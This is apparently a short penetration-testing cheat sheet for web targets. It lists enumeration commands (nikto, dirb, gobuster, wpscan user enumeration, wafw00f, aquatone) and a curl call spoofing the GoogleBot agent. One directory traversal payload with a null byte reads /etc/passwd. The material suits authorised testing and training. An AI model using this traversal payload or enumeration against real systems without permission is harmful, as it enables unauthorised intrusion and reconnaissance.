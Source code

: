 ## HTTP/HTTPS Pen Testing

### Enumeration
```
nikto -host thedomain.com

dirb http://10.11.1.140

gobuster dir -u http://192.168.124.52 -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50
```

#### If it won't let your read robots.txt because you're not a search engine, use curl and googlebot Agent string
```
curl -A 'GoogleBot' http://$ip/robots.txt
```
---

### To add IP's to your host file
Add the following to the hosts file `10.11.1.140 domainname.com`

Linux is `/etc/hosts`

Windows is `C:\windows\system32\drivers\etc\hosts`

---

### Directory Traversal Vulnerability
```
# To attempt to view the /etc/passwd file
http://host/index.php?page=./../../../../../etc/passwd%00
```
---

### Wordpress
```
# Enumerate users on wordpress site
wpscan targetsite.com --enumerate u
```
---
### Spidering with Burpsuite
```

```
---
### Check for web firewalls with wafw00f
```
wafw00f ip
```
---
### Check if domain exists with aquatone
```
apt install chromium
wget https://github.com/michenriksen/aquatone/releases/download/v1.7.0/aquatone_linux_amd64_1.7.0.zip
unzip aquatone_linux_amd64_1.7.0.zip
mv aquatone /usr/local/bin/

# Place all of your domains in a file called host
# aquatone will check if exists, and take screenshot
cat host | aquatone
```
